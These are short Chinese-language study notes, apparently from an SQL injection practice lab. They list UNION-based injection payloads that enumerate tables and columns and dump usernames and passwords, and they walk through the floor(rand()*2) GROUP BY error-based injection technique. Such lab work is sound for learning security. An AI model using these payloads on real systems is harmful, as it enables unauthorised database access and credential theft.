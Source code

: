 select * from 表 where id = '1'  --+' limit 0,1

order by 3 正确，发现有3列

id=-1' union select 1,table_name,3 from information_schema.tables where table_schema='security' limit 0,1 --+

id=-1' union select 1,column_name,3 from information_schema.columns where table_schema='security' and table_name='users' limit 0,1 --+

id=-1' union select 1,group_concat(usrname),group_concat(password) from users --+

==========================

1-4搞定

LIMBO 2023/1/3 11:56:22
小知识：

select count(*) from users;
计算一下有多少个结果

select rand();
取0-1之间的随机数

select floor(1.99);
向下取整

select floor(rand()*2);
取0-1之间的随机整数

select * from users group by id;
用id进行排序

select concat(1,2,3);
连接内容

0x3a => :

select concat(0x3a,0x3a,(database()),0x3a,0x3a)a;
查询数据库库名，并且取名为a

select concat(0x3a,0x3a,(database()),0x3a,0x3a,floor(rand()*2))a;

select floor(rand()*2) from information_schema.columns;

select concat(0x3a,0x3a,(database()),0x3a,0x3a,floor(rand()*2))a from information_schema.columns;

select concat(0x3a,0x3a,(database()),0x3a,0x3a,floor(rand()*2))a from information_schema.columns group by a;

select count(*),concat(0x3a,0x3a,(database()),0x3a,0x3a,floor(rand()*2))a from information_schema.columns;

select count(*),concat(0x3a,0x3a,(database()),0x3a,0x3a,floor(rand()*2))a from information_schema.columns group by a;
这个语句中，会进行两次随机数计算，有可能会出错

group by
select job,count(*) from table1 group by job;
此时group by会按照字母大小写进行排序
